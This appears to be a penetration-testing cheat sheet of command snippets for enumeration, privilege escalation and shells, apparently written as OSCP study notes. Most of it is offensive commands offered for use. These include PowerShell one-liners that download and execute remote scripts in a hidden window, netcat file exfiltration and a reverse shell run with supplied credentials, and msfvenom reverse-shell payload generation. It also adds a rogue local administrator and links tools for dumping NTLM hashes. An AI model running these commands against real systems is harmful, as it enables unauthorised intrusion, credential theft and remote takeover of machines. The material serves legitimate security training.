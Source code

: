 Tips
=================================================

LinuxEnum: 
--------------------------------------------------

find / -perm -4000 2>/dev/null   //SUID files   
find / -perm -u=s -type f 2>/dev/null  //SUID files
uname -a                         //Posible Linux Kernel Exploit  

### Tools:
[enum4linux](https://github.com/portcullislabs/enum4linux) //enum all  
[pspy](https://github.com/DominicBreuker/pspy) //Process monitoring in LiveMod

WindowsEnum:
--------------------------------------------------
whoami /all  
systeminfo  

[WinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)  
[Sherlock](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1)  
[fgdump.exe](https://github.com/interference-security/kali-windows-binaries/tree/master/fgdump)  /// DumpPassword NTLM Hashes  


SMBEnum:
--------------------------------------------------
nmblookup -A [ip]    
nbtscan [ip]    
smbmap -H [ip]    
smbclient -L [ip]    
smbclient //[ip]/tmp    

rpcclient -U "" -N [ip]      
enumdomusers  

nmap --script smb-vuln* -p 139,445 [ip]    
nmap --script smb-enum-shares -p 139,445 [ip]  
enum4linux -a [ip]    
  
File Transfer:
--------------------------------------------------
### nc:
nc -l -p 4445 > ovrflw  
nc -w 5 10.10.14.18 4445 < /usr/local/bin/ovrflw  

### powershell:

iex(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10:8000/file')  
Invoke-WebRequest "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"  
Invoke-RestMethod "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"  
(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/file.exe", "C:\Users\Public\Documents\file.exe") 

powershell.exe -w hidden -noni -nop -c "iex(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/rev.ps1')  

rdesktop (ip) -r disk:share=/home/store  
xfreerdp /u:alex /v:10.10.10.10 +clipboard  

Interactive shell:
--------------------------------------------------
python3 -c "import pty;pty.spawn('/bin/bash')"  
Ctrl+Z  
stty raw -echo  
fg  
stty rows 56 columns 213  

BufOverFlow:
--------------------------------------------------
ldd ovrflw | grep libc  
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep system  
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit  

Create pattern: /opt/metasploit-framework/tools/exploit/pattern_create.rb -l 100  
Pattern Offset: /opt/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x0000000  

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.150.141 LPORT=443 -f python -b "\x00" -v shell  


PSChangeUser  
----------------------------------------------------
$username = 'alice'  
$password = 'alicepass'  
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force  
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword  
Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nv","10.10.10.10","443","-e","cmd.exe") -WorkingDirectory C:\Users\Public  

PSAddAdminUser  
net user /add [*username] [password]  
net localgroup administrators [username] /add  
net localgroup "Remote Desktop Users" alex /add  

Hashes decrypt:
--------------------------------------------------
https://cmd5.ru/  
https://hashes.org/  

MSFVenom Shell:
--------------------------------------------------
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f raw > shell.jsp  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe > shell.exe  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f war > shell.war  

Compile:
--------------------------------------------------
apt-get install libc6-dev-i386 gcc -Wall -m32 -o <output> <code>  // on x64 for x32  
gcc -Wall -m64 -o <output> <code>  // on x64 for x64  

Pivoting:
--------------------------------------------------
https://github.com/21y4d/Notes/blob/master/Pivoting.txt  

Links:
--------------------------------------------------
https://book.hacktricks.xyz/    //Cheat Sheet Pentesting all the thing   
https://github.com/egre55/ultimate-file-transfer-list/blob/master/README.md    //File Transfer Cheat Sheet  
https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/   //SMB enumeration CheatSheet  
https://tcm-sec.com/2019/05/25/buffer-overflows-made-easy/    //BuferOverFlow tutor  
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/  //Linux PrivEsc Tips
https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html  //Reverse Shells  
https://www.fuzzysecurity.com/tutorials/16.html  //WindowsPrivEsc   
https://refabr1k.gitbook.io/oscp/reverse-shell  //StudyNotes  
https://sushant747.gitbooks.io/total-oscp-guide/sql-injections.html  //SQLTips  
http://www.securityidiots.com/Web-Pentest/SQL-Injection/  //MoreSQL  
https://github.com/21y4d/nmapAutomator/blob/master/nmapAutomator.sh  //nmapAutomator  
